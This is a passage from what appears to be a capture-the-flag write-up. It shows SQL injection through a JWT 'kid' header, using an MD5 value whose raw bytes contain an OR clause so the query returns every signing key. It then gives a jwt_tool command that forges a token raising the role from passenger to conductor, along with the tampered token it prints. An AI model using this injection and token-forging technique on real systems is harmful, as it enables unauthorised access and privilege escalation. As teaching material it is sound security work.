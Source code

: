 ```js
db.each(`SELECT * FROM keys WHERE kid = '${md5("'lý¥Â%'oR'5³¢[")}'`, (err, row) => {
        ???????
```

{% endcode %}

Why would this work? It's basically `SELECT`ing all of the `keys` from the database, `WHERE` the `kid` = `${md5("'lý¥Â%` OR `5³¢[")}`.

The first condition returns `false`, since no `kid` exists called `${md5("'lý¥Â%`.

The second condition returns `true`, since `(\d)` is [always true](https://www.sqlite.org/datatype3.html), even if it's in string format `('\d')` and followed by letters `('\d\w+')`.

To demonstrate this fact, try the following query in an online [SQLite interpreter](https://sqliteonline.com).

{% code overflow="wrap" %}

```sql
SELECT * FROM demo WHERE name = 'crypto' or 'cat';
```

{% endcode %}

It returns zero results, while this query returns all rows from the DB.

{% code overflow="wrap" %}

```sql
SELECT * FROM demo WHERE name = 'crypto' or '5cat';
```

{% endcode %}

The same applies to `MariaDB`, but `PostgreSQL` and `MSSQL` respond with an error.

Anyway, returning to our SQL statement, we have two conditions: one is true, and one is false. If we OR these results, the overall condition returns `true` (`0 || 1 = 1`), and all keys will be returned from the DB.

Time to test it out 🙂

{% code overflow="wrap" %}

```bash
jwt_tool eyJhbGciOiJIUzI1NiIsImtpZCI6InBhc3Nlbmdlcl9rZXkiLCJ0eXAiOiJKV1QifQ.eyJ0eXBlIjoicGFzc2VuZ2VyIn0.EqwTzKXS85U_CbNznSxBz8qA1mDZOs1JomTXSbsw0Zs -S hs256 -p a_boring_passenger_signing_key_? -I -pc type -pv conductor -hc kid -hv DyrhGOYP0vxI2DtH8y

jwttool_5897f616a9cbf019ed0a61e0b50a095c - Tampered token - HMAC Signing:
[+] eyJhbGciOiJIUzI1NiIsImtpZCI6IkR5cmhHT1lQMHZ4STJEdEg4eSIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiY29uZHVjdG9yIn0.jFCtw7Xi4WzujhfDRjLMez-qEfm-al8sVpvc00Dfr4k
```

{% endcode %}

We send the request with the new token and receive all the keys in return 😎

{% code overflow="wrap" %}
